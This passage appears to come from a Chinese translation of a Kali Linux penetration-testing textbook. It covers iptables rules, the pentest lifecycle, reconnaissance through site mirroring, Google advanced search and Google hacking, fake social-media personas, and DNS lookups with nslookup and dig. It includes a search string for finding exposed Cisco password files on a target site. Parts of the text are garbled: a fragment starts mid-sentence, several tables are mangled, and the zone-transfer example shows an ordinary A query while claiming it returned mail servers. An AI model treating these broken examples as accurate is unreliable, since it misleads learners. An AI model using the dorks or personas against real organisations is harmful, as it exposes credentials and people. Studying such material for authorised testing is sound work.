| DROP | all | -- | 11.2.1.6 | 0.0.0.0/0 |
| DROP | all | -- | 30.12.75.0/24 | 0.0.0.0/0 |

`iptables` 中另一个常用的命令是允许服务或端口的所有流量。以下示例显示了如何允许所有用户连接到 SSH、HTTP 和 IMAP 服务及其端口。

```bash
# iptables -A INPUT -m state --state NEW -p tcp --dport 22 -j ACCEPT
```

```bash
# iptables -A INPUT -m state --state NEW -p tcp --dport 80 -j ACCEPT
```

```bash
# iptables -A INPUT -m state --state NEW -p tcp --dport 143 -j ACCEPT
```

```bash
## iptables -n L INPUT Chain INPUT (policy ACCEPT)
```

| target | prot | opt | source | destination |
| :--- | :--- | :--- | :--- | :--- |
| DROP | all | -- | 11.2.1.6 | 0.0.0.0/0 |
| DROP | all | -- | 30.12.75.0/24 | 0.0.0.0/0 |
| ACCEPT | tcp | -- | 0.0.0.0/0 | 0.0.0.0/0 state NEW tcp dpt:22 |
| ACCEPT | tcp | -- | 0.0.0.0/0 | 0.0.0.0/0 state NEW tcp dpt:80 |
| ACCEPT | tcp | -- | 0.0.0.0/0 | 0.0.0.0/0 state NEW tcp dpt:143 |

定期清理不需要和不必要的规则是一个良好的习惯。使用规则编号来引用规则是在 `iptables` 中删除规则最简单的方法。如前所述，你可以使用 `--line-numbers` 选项获取行号。但请注意，当你删除一条规则时，剩余规则将重新编号。

```bash
## iptables -n -L INPUT --line-numbers
```

Chain INPUT
(policy ACCEPT)

| num | target | prot | source | destination |
| :--- | :--- | :--- | :--- | :--- |
| 1 | DROP | all | -- | 11.2.1.6 0.0.0.0 |


| 2 | DROP | all | -- | 30.12.75/24 0.0.0.0 |

| 3 | ACCEPT | tcp | -- | 0.0.0.0/0.0.0.0.0 state NEW tcp dpt:22 |

| 4 | ACCEPT | tcp | -- | 0.0.0.0/0.0.0.0.0 state NEW tcp dpt:80 |

| 5 | ACCEPT | tcp | -- | 0.0.0.0/0.0.0.0.0 state NEW tcp dpt:143 |

```bash
## iptables -D INPUT 2
```

```bash
## iptables -D INPUT 1
```

```bash
## iptables -n -L INPUT --line-numbers
```

Chain INPUT (policy ACCEPT)

| num | target | prot | source | destination |

| :--- | :--- | :--- | :--- | :--- |

| 1 | ACCEPT | tcp | -- | 0.0.0.0/0.0.0.0.0 state NEW tcp dpt:22 |

| 2 | ACCEPT | tcp | -- | 0.0.0.0/0.0.0.0.0 state NEW tcp dpt:80 |

| 3 | ACCEPT | tcp | -- | 0.0.0.0/0.0.0.0.0 state NEW tcp dpt:143 |

除了上面讨论的通用条件外，你还可以根据需求定义更多特定的条件。

## 创建规则

要创建新规则，你需要调用 `iptables` 或 `ip6tables`。手动输入这些命令可能会非常麻烦。因此，最好将你需要的调用存储在脚本中，并确保系统启动时调用该脚本。

```bash
## apt install fwbuilder
```

使用 `fwbuilder` 工具创建脚本非常简单。它遵循简单的原理。首先，你需要列出所有想要构成实际规则的元素。元素如下：

- 防火墙，以及系统上的网络接口。
- 网络详情，以及 IP 范围。
- 节点。
- 托管在服务器上的服务端口。

下一步是使用 `fwbuilder` 主窗口中提供的拖放功能创建规则，如下所示。你也可以在条件中使用否定逻辑。然后，你需要选择所需的选项并进行配置。

对于 IPv6，你可以选择为 IPv6 和 IPv4 创建单独的规则集，或者只创建一个规则集并让 `fwbuilder` 根据 IP 栈进行转换。

渗透测试，以及获取对常用工具的实操知识。

## 侦察

让我们尝试通过一个类比来理解渗透测试的这一阶段。想象一次军事行动，一个房间由军事专业人员占据。在一个光线昏暗的房间里，军官和分析师正在查看目标区域的地图。房间里的其他几个人通过电视和监视器不断观察目标区域发生的活动，并做着笔记。房间里最后一组人负责整合数据并对这些数据编写报告。这正是渗透测试人员在渗透测试生命周期的侦察阶段所做的工作。

上述活动与道德黑客在渗透测试生命周期第一阶段所做的是同义的。在此阶段，渗透测试人员专注于任何可以提供有关作为攻击目标的组织和网络见解的任何和一切。道德黑客通常会对目标网络启动被动扫描，并爬取互联网上关于目标的可用信息。在此阶段，渗透测试人员不会对目标网络发动攻击，而是会对目标网络进行评估，以获取尽可能多的信息并进行记录。

## 扫描

我们将继续使用军事类比来理解扫描阶段。想象一个山丘，你的一名士兵伪装在树木和灌丛中。这名士兵的责任是发回报告，详细说明他所看到的营地的细节、他认为该营地的目标是什么，以及该营内每栋建筑正在发生的活动。报告还应包括进出营地道路的信息。它还会提到该营地所采取的安全措施。

上述类比中的士兵收到的报告是由渗透测试第一阶段生成的，以便在不被发现的情况下更接近目标系统并对其进行扫描以获取更多信息。渗透测试人员将进一步利用扫描工具实际获取有关目标系统网络基础设施的确认信息。在此阶段收集的信息将用于渗透测试生命周期的利用阶段。

## 利用

有三名士兵部署在战场上，携带了前两个阶段收集的所有信息。月亮被云层遮住，但士兵们仍然可以看到一切。他们利用围栏上的一个缺口，然后通过一个无人监管的门进入目标营地。他们在营内只待了几分钟，收集了信息，告诉他们营地在未来几个月的计划。

这就是渗透测试人员在利用阶段所做的工作。该阶段的任务是进入系统、获取所需信息，并在不被察觉的情况下离开系统。这是通过利用系统中的漏洞实现的。

## 维持访问

突袭营地的士兵小组现在取回图纸，详细说明了营地的人口、检查站、无人监管的门、守卫区域等信息。利用这些信息，一组经验丰富的工程师制定了一个计划，通过挖掘地面从下方到达营内所需的房间。这个隧道的目的是为了轻松到达所需的房间并继续对其维持访问。

这类似于渗透测试人员在维持访问阶段所做的工作。一旦目标系统被利用并获得了访问权限，目标系统上就会留下留根程序（rootkits），以便将来也能无问题地访问。

## 报告

突击小组的指挥官将向将军和海军将提交报告，解释突击每个阶段发生的情况。报告包含了详细信息，解释了哪些因素有助于利用。

在此阶段，渗透测试人员还会创建报告，解释攻击过程、漏洞和被攻击的系统。在某些组织中，渗透测试团队的一名或多个成员必须向高级管理层汇报报告。

# 第 3 章

## 复兴

在本章中，我们将深入研究渗透测试生命周期的侦察阶段。这一过程将引导渗透测试人员发现有关目标系统或组织的信息。收集的信息将用于渗透测试生命周期的后期阶段。

## 简介

军事单位在制定实际攻击计划之前，会尝试使用可用信息来分析目标营地。同样，渗透测试人员需要通过阅读可用信息来分析目标系统，这些信息稍后可用于渗透。大多数时候，关于目标的信息可以通过 Google 搜索并检查目标系统在社交媒体上是否有关于它的信息来找到。可以在互联网上找到更多关于目标系统名称服务器的信息，这也会引导你进入用户的浏览器。可以通过回复真实电子邮件中提供的可用地址来获取更多信息。一旦你知道了目标系统的网站，你就可以下载其代码来开发其离线副本，这将有助于更深入地理解目标系统。以后还可以作为社会工程任务的工具。

侦察阶段是第一阶段，渗透测试团队对目标系统的了解微乎其微。在此阶段提供给团队的信息范围可能很大，从极少的信息（如目标组织的名称和网站 URL）到系统的特定信息（其 IP 地址和目标系统使用的技术）。管理团队可能对正在进行的测试类型有某些限制，例如社会工程和攻击，可能会导致拒绝服务（DoS）或分布式拒绝服务（DDoS）。

此阶段的主要目标是发现发现关于目标组织的尽可能多的信息。

在此阶段需要收集的一些信息如下：

- 组织的结构，应包括显示层级和部门的图表。
- 组织的设施，应包括网络拓扑和 IP 空间。
- 使用的硬件和软件。
- 员工的电子邮件地址。
- 与该组织合作的其他公司。
- 组织的物理位置。
- 所有电话号码。

### 可信代理

可信代理是组织的代表，可以回答日常问题。预计他或她不会向整个组织透露渗透测试的信息。

### 从目标网站开始

如果目标为自己制作了网站，它将包含大量有助于执行任务的信息。例如，许多网站会显示组织的层级结构以及领导层简介。

几乎所有组织都维护一个职业和工作机会的页面。该页面可以让你洞察正在使用什么技术。例如，如果有一个需要 Windows Server 2012 和 Active Directory 知识的系统管理员招聘空缺，这足以证明该组织使用了 Windows Server 2012。如果招聘空缺说明需要 Windows Server 2000 或 2003 的知识，这应该提醒渗透测试人员，该组织在使用更容易攻破的老旧技术。

你应该检查每个网站是否都有指向组织 Webmail 的链接，因为默认 URL 总是 `webmail.organization.com` 或 `mail.organization.com`。如果解析此链接带你进入 Gmail 访问页面，你将知道组织使用 Gmail 作为邮件后端。如果你看到 Office365 页面，你将知道后端是通过 Office365 使用。这意味着邮件服务器在渗透测试的范围之外，因为它们属于科技巨头，如果你尝试戏弄它们，可能会遇到麻烦。因此，对于渗透测试也需要定义边界。如果有越界边界的可能性，应该始终咨询可信代理。

### 网站镜像

在某些情况下，下载尽可能多的目标网站并重新生成其缺失部分以进行离线评估会更有帮助。这有助于自动化工具扫描网站代码中的关键词，或者即使你想修改网站代码以测试几项内容也是。此外，在侦察阶段工作时，拥有一个网站离线副本总是好事。你可以在 Kali Linux 命令行中使用 `wget` 等工具，它可以复制所有静态 HTML

从网站下载文件并存储在本地。`wget` 工具在 Kali Linux 中默认可用，且易于使用。你可以使用下面的命令从网站复制所有 HTML 文件并将其存储在本地机器上。但是，请注意，`wget` 命令仅获取静态 HTML 文件，使用 PHP 代码创建的服务器端脚本将不会被下载。

```
wget -m -p -E -k -Kn -np http://organizationwebsite.com
```


在这个示例中，`wget` 命令使用了许多选项。你可以使用 Kali Linux 中的 `wget` 手页（man pages）来理解传递给 `wget` 命令的每个选项的。你可以使用 `man wget` 命令来获取 `wget` 的手册。

你可以使用向上和向下箭头键或上页/下一页键来浏览手册中的内容。你可以使用 `h` 键获取帮助，并使用 `q` 键退出帮助页。如果你查看 `wget` 的帮助页，将看到类似下面的内容：

- `-m`：代表 mirror（镜像），用于开启网站镜像的相关要求。
- `-p`：代表 prerequisites（前提条件）或 page（页面），用于确保下载 HTML 和 CSS 文件。
- `-E`：此选项调整扩展名，并将确保下载的文件以 HTML 格式存储在本地。
- `-k`：此选项用于链接转换，确保所有下载的文件都经过转换以便在本地查看。
- `-K`：此选项用于转换备份，它将以 `.orig` 后缀备份原始文件。

一旦 `wget` 工具下载完成且所有文件都在系统上，它会将它们存储在一个以网站命名的文件夹中。当工具正在下载时，如果遇到用 PHP 代码编写的页面，你可能会在输出中看到错误。这是因为创建网站的代码运行在后端。这意味着任何克隆工具都无法轻松访问它。

在下载文件后，你需要确保其他人无法查看它，或者不要将代码再次部署到网上，否则将违反版权法。

## Google 搜索

Google 提供了高级搜索选项，可以在侦察阶段使用。如果你从未用过高级搜索，可以在以下 URL 找到：

http://www.google.com/advanced_search

该页面如下所示。


专业的渗透测试人员也可以使用普通搜索页面来寻找他们想要的内容，但如果你刚开始使用 Google 搜索，高级搜索表单参数将引导你找到正在寻找的内容。可以使用页面底部的可用操作符使搜索结果更具针对性。搜索者可以使用此页面上的参数组合来构建符合自己喜好的搜索。如果你使用多个字段，搜索将更加复杂，但也更准确。


让我们简要介绍一下 Google 高级搜索中的可用参数。

### 包含所有词 (All These Words)

此字段将通过匹配你输入的词来搜索页面，无论这些词出现在网页的什么位置。这些词并不一定与你输入的顺序一致。你可以通过在文本字段中输入关键词来进行此类搜索，Google 将其转换为搜索字符串。

### 确切的词或短语 (This Exact Word or Phrase)

当你在此字段中输入搜索词时，Google 将按照你输入的顺序在互联网上搜索这些词或短语。与“包含所有词”给出的结果不同，此选项的搜索结果将包含按相同顺序这些词的网页。Google 在使用此选项时翻译搜索字符串并将其放入引号。

### 包含任一词 (Any of These Words)

在此搜索中，Google 将提供包含你输入的词中的任何一个的网页。它不会尝试匹配你输入的所有词来给出结果。在使用此选项时，Google 通过使用 `OR` 操作符分隔词汇来翻译搜索字符串。

### 不包含任一词 (None of These Words)

当你希望搜索结果不包含你输入的词时，使用此搜索。在使用此选项时，Google 在你输入的词前面加上减号（`-`）来翻译搜索字符串。

### 数字范围 (Numbers Ranging From)

此搜索选项提供了两个文本字段，以便你输入两个数字作为搜索范围。你还可以通过为范围使用测量单位来增强搜索，例如公里(`km`)、磅(`lb`)等。在使用此选项时，Google 在两个选项之间放置一个句号来翻译搜索字符串。

### 语言 (Language)

你可以在此字段中指定语言，以确保 Google 搜索结果包含匹配该语言的页面。

### 地区 (Region)

你可以从下拉菜单中指定一个地区，搜索结果将包含在该特定地区发布的网页。如果你没有将其与语言选择下拉菜单结合，搜索结果将显示该地区的所有页面，无论该地区使用的语言。你可以通过同时指定语言和地区来进行更有针对性的搜索。

### 最后更新 (Last Updated)

你可以在此搜索参数的下拉菜单中指定时间限制，以显示最后修改过的网页搜索结果。例如，如果你想找到新添加的内容，可以指定时间范围，搜索将包含所有结果。

### 站点或域名 (Site or Domain)

这可能是缩小搜索范围最有用的参数之一。例如，如果你只想搜索政府机构，可以指定 `.gov`。或者，如果你想搜索特定的公司，可以指定域名。

### 词出现的位置 (Terms Appearing)

你可以使用此字段将搜索指向页面的特定部分。如果你选择“页面上的任何处”，搜索将遍历整个页面。如果你使用“在页面标题中”，搜索将仅针对标题。网页的标题是你打开它时在标签页中显示的内容。如果你将参数设置为“在正文中”，搜索将包含所有结果。然而，如果这些元素是以文本形式编写的，仍然会被返回。此条件也适用于链接和图像。

如果你使用参数“在页面 URL 中”，搜索结果将限制在统一资源定位符。URL 是网站的地址，显示在地址栏中。使用参数“指向页面的链接中”将显示引用了该网站的网页。

### 安全搜索 (Safe Search)

安全搜索中有两个参数：“过滤显性内容”和“显示最相关结果”。如果你使用显性过滤选项，搜索结果将排除包含色情内容的页面。如果你使用显示相关结果选项，搜索将不会过滤此类内容。

### 阅读等级 (Reading Level)

此选项根据网页中文本的复杂程度来过滤搜索结果。如果你使用“无阅读等级”选项，搜索将在不带等级过滤的情况下执行。如果你使用“标记阅读等级”选项，结果将包含每个页面的等级指示。

### 文件类型 (File Type)

该参数再次是渗透测试人员可以使用的最且实用的工具之一。你可以指定并缩小搜索范围到包含你指定的文件类型的网站。例如，你可以指定 Adobe PDF 或 Microsoft DOCX 和 XLS 等文件类型。你可以使用各种文件类型搜索各种网页。例如，用户名和密码通常存储在数据库中，文件类型可以是 SQL。此参数的下拉菜单提供了目前最常用的文件扩展名列表。

### 使用权利 (Usage Rights)

此参数根据发布者关于内容是否可以重复使用或是否有版权问题的声明来缩小搜索结果。如果你选择“免费使用、共享或修改”选项，搜索结果将返回允许重复使用的页面，但会有一些限制定义了如何重复使用内容。常见的限制包括

如内容修改等声明将产生名义费用。如果您选择“商业”选项，结果将返回您拥有许可可以重新使用其内容的网站。

## 编译高级 Google 搜索

你始终可以使用高级 Google 搜索页面中的单个参数来获得良好的结果。尽管如此，你仍然可以使用参数组合来获得更好、更相关的结果。例如，考虑名为“茂凯国际”的公司在两个月前与另一家公司进行了合并，并聘请你对他们进行渗透测试。员工在合并期间创建了许多文档。他们可能在网站上公开留了一份重要文档。你可以使用以下 Google 搜索参数组合来获取所需的渗透测试结果。

精确此词或短语：`organizational chart`

- 区域：日本
- 语言：日语
- 最后更新时间：2 个月前
- 站点或域名：`maokai.com`
- 文件类型：`Docx`

## Google 黑客（Google Hacking）

一位名叫 Johnny Long 的计算机安全专家开创了被称为 Google 黑客（Google Hacking）的技术。这是一种利用特定的 Google 操作符的技术，可用于调整搜索结果以获取相关结果。该技术利用特定的表达式从 Google 数据库中获取有关个人和组织的结果。这种技术利用了我们之前在高级 Google 搜索中讨论的操作符并进一步放大了结果。它利用链接选项和高级操作符创建复杂的 Google 搜索查询，并发送到 Google 搜索引擎。

这种技术被用于特别是当需要针对组织使用的技术（如 Web 服务）的信息结果时。其他时候，它也用于检索用户凭据。如今世界上有很多关于如何使用 Google 进行黑客攻击的书籍。最受欢迎的书是 Johnny Long 写的，出版社是 Sygress。

## Google 黑客数据库（Google Hacking Database）

有一个用于 Google 黑客的查询字符串数据库。你可以在 http://www.hackersforcharity.org/ghdb/ 找到原始数据库。另一个由 Offensive Hacking 维护的 Google 黑客数据库位于 http://www.offensive-security.com/community-projects/google-hacking-database/，它是原始数据库的扩展。当最初创建数据库时，它包含了超过 3350 个 Google Hack，分布在 14 个类别中。其中，约 160 条搜索字符串可用于获取包含存储密码文件的 Google 结果。让我们来看一个可以获取包含 Cisco 密码文件的 搜索字符串示例。


将此内容输入 Google 搜索，返回了超过百万个包含 Cisco 密码的网站结果。虽然有些文件不包含任何密码，但也有许多确实包含 Cisco 密码。渗透测试人员可以进一步完善此搜索字符串，包含网站或域名操作符，如下：

`enable password j secret "current configuration" -inext:the site:websitetohack.com`

# 社交媒体

社交媒体是如今的日常生活，也是每个人生活的一部分。基于此，对于从事渗透测试的人来说，它可以被视为一个装满宝藏的盒子。人们可能会在生活中保护自己的信息，但在 Instagram、Twitter、Facebook、LinkedIn 等社交媒体上忽视并发布。这些信息对于社交工程学非常有用。利用 LinkedIn 获取组织的层级结构。LinkedIn 将帮助你连接目标简介中的线索，并帮助收集组织架构图甚至是电子邮件地址。然而，获取电子邮件地址可能需要额外的社交工程学手段，因为它们没有在 LinkedIn 上公开显示。最后，组织也会在 LinkedIn 上发布招聘机会。这些列表包含了职位的要求，让你了解组织所使用的技术。许多公司已开始意识到这一漏洞，因此将职位空列为机密，以便第三方无法轻易访问这些列表。

# 创建替身

替身被定义为看起来像另一个人的人。在社交媒体世界中开始侦察之前，创建一个性格或简介是一项常见做法。你不希望使用渗透测试人员或安全专家的简介来对目标进行研究。渗透测试人员可以在社交媒体上创建一个性格或简介，这个身份在某个时间点可能是目标的前同事或大学同学。然而，你的公司可能不允许执行此操作，因为这可能被指控为身份盗窃。如果你深入创建该性格，可能会给你带来麻烦，但同样，两个人也可以有相同的名字。例如，你可以创建一个虚构人物 John Doe，他就读于布朗大学，这并不意味着你盗取了某个就读于布朗大学的真实 Jon Doe 的身份。在任何情况下，你都需要确保该性格不要深度模仿某个真实人物的性格，否则可能会被视为身份盗窃或欺诈。这通常意味着你不应该使用你创建的性格名称来填写任何法律表格。

# 招聘网站

作为渗透测试人员，你也可以转向对 Dice、Career Builder、Monster 等招聘门户网站的研究，因为这也可以导致有用的发现。如果你在这些页面搜索目标组织，这些网站也可以帮助你理解目标组织使用的技术，它可以揭示该组织目前的空缺职位，帮助渗透测试人员更好地了解目标。许多公司已开始发现这一漏洞，因此将空缺列为机密，以便第三方无法轻易访问这些列表。

# DNS 攻击

域名系统（Domain Name System，简称 DNS）是互联网的电话簿。与 IP 地址相比，人类更容易记住名称。DNS 使用基于字节（octets）的分层结构。在这个结构的另一端是具有 IP 地址的服务器，得益于名称服务器（nameservers），可以被访问。名称服务器的最顶层是顶级域名，如 `.com`、`net` 以及其他顶级域名。

当有人在浏览器地址栏输入 `google.com` 时，会触发一系列事件。查询从本地名称服务器开始，一直向上到达根名称服务器。每个名称服务器都拥有关于其或其上层名称服务器的信息。如果 Web 浏览器之前对 `google.com` 发送过请求，计算机将拥有该 IP 的缓存；或者如果信息未缓存或这是第一次发出请求，则请求将中继到链中的下一个名称服务器。如果下一个名称服务器也不知道，查询将继续传递给链中方的名称服务器，直到最终到达顶级域名名称服务器——对于 `google.com` 来说就是 `.com` 名称服务器。名称服务器提供的信息比 Web 网页更多。名称服务器上还存在其他记录，例如域的 MX 记录，可帮助电子邮件路由到该域。

## 名称服务器查询

大多数名称服务器根据默认属性是可以公开访问的。你可以在 Kali Linux 中使用以下命令查询与本地机器关联的名称服务器。

```
#nslookup
Server: 172.27.152.39
Address: 172.27.152.39#53
```

非权威回答：

Name: google.com

Address: 172.27.166.164

你可以使用 `exit` 命令退出 `nslookup`。

`nslookup` 命令还可以利用本地系统设置的名称服务器。你可以使用以下命令查看特定 `nslookup` 正在使用的名称服务器。

```
#nslookup
```

```
>server
```

你也可以让 `nslookup` 命令产生其他结果。例如，你可以使用以下命令查找某个域名使用的所有邮件服务器。

```
#nslookup
```

```
> set type=MX
```

```
> google.com
```

```
Server: 172.27.152.39
```

```
Address: 172.27.152.39#53
```

非权威应答：

- google.com 邮件交换 = 20 alt1.aspmx.l.google.com.
- google.com 邮件交换 = 10 aspmx.l.google.com.
- google.com 邮件交换 = 50 alt4.aspmx.l.google.com.
- google.com 邮件交换 = 30 alt2.aspmx.l.google.com.
- google.com 邮件交换 = 40 alt3.aspmx.l.google.com.

权威应答可以从这里找到：

```
alt1.aspmx.l.google.com internet address = 173.194.202.26
```

alt1.asmx.l.google.com has AAAA address 2607:f8b0:400e:c00::1a

asmx.l.google.com internet address = 172.217.194.26

asmx.l.google.com has AAAA address 2404:6800:4003:c03::1a

alt4.asmx.l.google.com internet address = 172.253.112.26

alt4.asmx.l.google.com has AAAA address 2607:f8b0:4023::1b

alt2.asmx.l.google.com internet address = 108.177.10.26

alt2.asmx.l.google.com has AAAA address 2607:f8b0:4003:c14::1b

alt3.asmx.l.google.com internet address = 209.85.145.27

alt3.asmx.l.google.com has AAAA address 2607:f8b0:4001:c1e::1b

如上面的示例所示，结果返回了 `google.com` 使用的邮件服务器列表。

在侦察阶段（Reconnaissance stage），了解与域名关联的几种记录类型非常有用的。正如我们在上面的示例所示，`nslookup` 命令默认使用本地计算机的名称服务器。你可以在 Kali Linux 的 `/etc/resolv.conf` 文件中找到本地名称服务器。你可以使用以下命令查看本地定义的名称服务器。

```
#cat /etc/resolv.conf
```

```
# Generated by NetworkManager
```

```
nameserver 172.27.152.39
```

```
nameserver 172.27.1.2
```

你可以更改默认名称服务器以使用目标系统的名称服务器。你可以使用以下命令来查找目标系统的名称服务器。

```
# nslookup
> set type=NS
> google.com
Server: 172.27.152.39
Address: 172.27.152.39#53
Non-authoritative answer:
google.com nameserver = ns2.google.com.
google.com nameserver = ns1.google.com.
google.com nameserver = ns3.google.com.
google.com nameserver = ns4.google.com.
```


权威应答可以从这里找到：

```
ns2.google.com internet address = 216.239.34.10
ns2.google.com has AAAA address 2001:4860:4802:34::a
ns1.google.com internet address = 216.239.32.10
ns1.google.com has AAAA address 2001:4860:4802:32::a
ns3.google.com internet address = 216.239.36.10
ns3.google.com has AAAA address 2001:4860:4802:36::a
ns4.google.com internet address = 216.239.38.10
ns4.google.com has AAAA address 2001:4860:4802:38::a
```

上述输出提供了 `google.com` 使用的默认名称服务器的结果。一旦你找到了目标系统的名称服务器，就可以将 `nslookup` 命令使用的名称服务器更改为目标系统的名称服务器。你可以使用以下命令。我们将使用 `google.com` 的其中一个名称服务器。

```
#nslookup
> server 216.239.34.10
```

```
Default server: 216.239.34.10
Address: 216.239.34.10#53
```

可以使用 Kali Linux 中的 `nslookup` 工具发现各种类型的记录。下表将为你提供互联网上使用的所有 DNS 记录的概述。

| 记录类型 | 默认端口 | 服务器类型 |
| :--- | :--- | :--- |
| mx | 25 | 邮件服务器 |
| txt | 无端口 | 可以插入任何内容的文本字段 |
| ns | 53 | 名称服务器 |
| cname | 无端口 | 设置其他服务器的规范别名 |
| aaaa | 无端口 | IPv6 或版本 6 |
| a | 无端口 | 用于设置域名或子域的 IPv4 或版本 4 |

## 区域传输

正如我们在上一节中学到的，你可以使用 `nslookup` 工具手动检索大量信息。但你可以使用区域传输（zone transfer）用更短的时间获取更多信息。区域传输可以获取名称服务器上的更多信息。

名为 `dig` 的工具可以执行区域传输，它非常 `有用`。你可以使用以下命令进行区域传输。

```
#dig [domain] axfr
```

让我们来看一个例子：

```
#dig @ns2.google.com google.com
<<< DiG 9.9.4 >>> @ns2.google.com
google.com; (2 servers found)
;; opcode: QUERY, status: NOERROR, id: 26226
;; flags: qr rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available
;; OPTOSECTION:
;; EDNS: version: 0
;; QUESTION SECTION:
google.com. IN A
;; ANSWER SECTION:
google.com. 300 IN A 172.217.166.110
;; Query time: 41 msec
;; SERVER: 216.239.34.10#53(216.239.34.10)
;; WHEN: Tue Jan 21 21:52:36 IST 2020
;; MSG SIZE recvd: 55
```


如你所示，结果返回了 `google.com` 使用的邮件服务器列表。

今天有许多工具可用于扫描。然而，在本章中，我们将介绍一些最流行的 Kali Linux 工具，例如 `Nmap`、`Hping` 和 `Nessus`。在渗透测试生命周期的这一阶段，我们将尝试寻找可能的目标，以便在下一阶段使用：漏洞利用。扫描允许黑客发现他们可以用来黑入系统的漏洞。

# 网络流量

些人认为网络流量非常复杂，但我们将在本节中进行解释，因为它是扫描阶段的先决条件。各种计算机通过网络发生的通信被称为网络流量。现在存在两种类型的网络——有线网络和无线网络。理解网络以太网的基础知识至关重要。在本章中，我们将学习：

- 防火墙和端口。
- 传输控制协议 (`TCP`)。
- 用户数据报协议 (`UDP`)。
- 互联网控制管理协议 (`ICMP`)。

# 端口与防火墙

防御网络免受外界攻击的最常见方法是在你的内部网络和外部世界（主要是互联网）之间实施防火墙。防火墙是一种软件或硬件，通过采用某些规则集充当你网络的门卫。入站流量（称为 `ingress`）和出站流量（称为 `egress`）使用访问控制列表进行监控。只有当流量符合防火墙中指定的标准时，才允许通过防火墙。所有其他流量都会丢弃。这是通过根据定义的标准打开或关闭端口来实现。端口是允许两个或多个计算机或网络设备之间进行通信的介质。`TCP` 通信共有 65535 个端口可用，`UDP` 通信共有 65535 个端口可用。这些端口中的一些分配了默认功能，也可以用于其他功能。例如，超文本传输协议使用 80 端口处理普通互联网流量，但也可以将 80 端口分配给流量，并指定另一个端口用于互联网流量。你可以将端口想象成一栋带有通往不同房间门的建筑。每个房间都有通过管理各种功能来执行专门任务的人。80 号房间后面的办公室管理进入的网页请求。 80 号房间背后的办公室也可以移动到不同的房间（例如 8080 号房间），它将继续执行管理网页请求的任务。在这种情况下，管理不同任务的人可以移动到 80 号房间并执行不同的任务，或者 80 号房间可以被永久关闭。然而，请求网页的访问者也需要知道，现在需要在 8080 号房间而不是 80 号房间请求网页。敲 80 号房间请求网页的访问者将空手而归，因为他们无法获得所需的信息，因为他们会在错误的房间寻找，或者该房间可能被锁了。相反，如果访问者拥有正确的房间号 8080，他们将获得请求的信息。

# IP 协议

协议是为现实世界和计算机网络定义的一组规则。有专门的人员分配给政治家、外交官和官僚，为他们管理与协议相关的问题。这些成员确保需要到达政治家、外交官和官僚的访问者或消息始终遵循协议（即按照正确的方式）到达。计算机世界中的协议通过遵循一组规则来帮助网络设备之间发生通信。今天，计算机网络有多种协议可用，但我们将在本章中介绍最重要和最常见的网络协议。这将帮助我们利用 Kali Linux 工具，这些工具在渗透测试生命周期中被用于扫描和发现漏洞。这三个协议是 `TCP`、`UDP` 和 `ICMP`。

## TCP

`TCP` 是网络通信中最常用且最重要的协议之一。`TCP` 协议是基于连接的。这意味着每当两个设备使用 `TCP` 建立连接时，网络双方的设备都会确认会话的开启，随后在两个设备上发送和接收消息。这可以用电话通话来解释。

电话响了：

Alice：“你好”

Bob：“你好，请问 Alice 在吗？”

Alice：“我是 Alice。”

这是一个以前的类喻，但它解释了通过 `TCP` 建立连接时发生的三次握手。在通过 `TCP` 进行通信时，当两个网络设备之间建立通信时，会启动三个数据包交换。发送的第一个数据包称为同步包，通常称为 `SYN`。当接收端设备收到此 `SYN` 数据包时，如果可用，它将确认并发送另一个同步包，称为 `SYN/ACK`。一旦发起端设备收到 `SYN/ACK` 数据包，它还会发送一个确认包 `ACK` 包以建立连接。接下来的图将说明三次握手。


在互联网上成功建立的所有 `TCP` 连接将使用三次握手，以确保网络两端设备之间存在同步连接。我们将在本章中学习如何使用这种三次握手，以避免之后被检测到。在两个设备使用 `TCP` 建立连接后，两个设备之间存在持续的确认过程。这确保了第一个设备发送的所有包都能成功到达第二个设备，而未收到的包将由第一个设备重新发送。这可以类比为通信过程中提供的反馈。让我们来看一个例子。

Alice：“我请求你在下午 3 点去餐厅会面。”

Bob：“你能确认一下时间吗？”

Alice：“是在下午 3 点。”

这个过程会对服务器产生负载，并比通常消耗更多带宽。正因如此，三次握手通常用于对延迟影响较大的会话。有一组使用 `TCP` 的应用程序，例如文件传输协议 (`FTP`)、超文本协议 (`HTTP`) 以及电子邮件协议，如简单邮件传输协议 (`SMTP`)、邮局协议 (`POP`) 和互联网邮件访问协议 (`IMAP`)。

## UDP

使用 `UDP` 协议的连接负载比 `TCP` 协议小。正如我们所学到的，`TCP` 连接就像双方之间发生的电话通话，双方不断地发送和接收对方的消息并进行确认。`UDP` 连接更像是两个双方之间的广播，任何一方都不确认消息已接收。默认情况下，认为广播出的数据包已收到了。

广播电台：“这是 ABC 广播；请今天下午 3 点在餐厅加入我们。”这个广播由所有收听广播的人接收。如果接收者错过了此广播消息的某些部分，根据默认规则，他们不会再次请求该消息。该规则也有例外，但超出了本课程的范围。当通过 `UDP` 进行传输时，接收者永远不会让你知道传输介质，或者数据包是完整还是部分收到的。这种方法用于对收到的包不需要任何验证的情况，也不用于担心包到达顺序的应用程序。

## ICMP

`ICMP` 设计为用于网络健康和维护的网络协议。该协议有助于发现网络上的设备是否按预期运行以及是否可以正常通信。`ICMP` 应用程序并不直接暴露给终端用户，但该规则也有各种例外。该规则的一个常见例外将是 `PING` 和 `TraceRoute` 工具。另一个区别是 `ICMP` 不像 `TCP` 和 `UDP` 协议那样携带用户数据。

相反，`ICMP` 会携带与系统、计算机与计算机计算机、网络设备以及其他应用程序服务相关的消息。`ICMP` 数据包的头部包含一个特定的代码（`code`）或一组设置（`set`）。这些设置有助于对网络节点提问或提供相关信息。渗透测试人员可以利用这些代码和设置来获取有关目标系统的信息。让我们查看 `ICMP` 头部中可用的代码。

| 类型 (Type) | 代码 (Code) | 描述 (Description) |
|---|---|---|
| 0(回显响应) | 0 | 回显 (Echo Reply) |
| 3(目标不可达) | 0 | 目标网络不可 (Destination Network Unreachable) |
| | 1 | 目标主机不可 (Destination Host Unreachable) |
| | 2 | 目标协议不可 (Destination Protocol Unreachable) |
| | 3 | 目标端口不可 (Destination Port Unreachable) |
| | 6 | 目标网络未知 (Destination Network Unknown) |
| | 7 | 目标主机不可 (Destination Host Unreachable) |
| | 9 | 网络管理性禁止 (Network Administratively Prohibited) |
| | 10 | 主机管理性禁止 (Host Administratively Prohibited) |
| | 13 | 网络管理性禁止 (Network Administratively Prohibited) |
| 8(回显请求) | 0 | 回显请求 (Echo Request) |

### PING

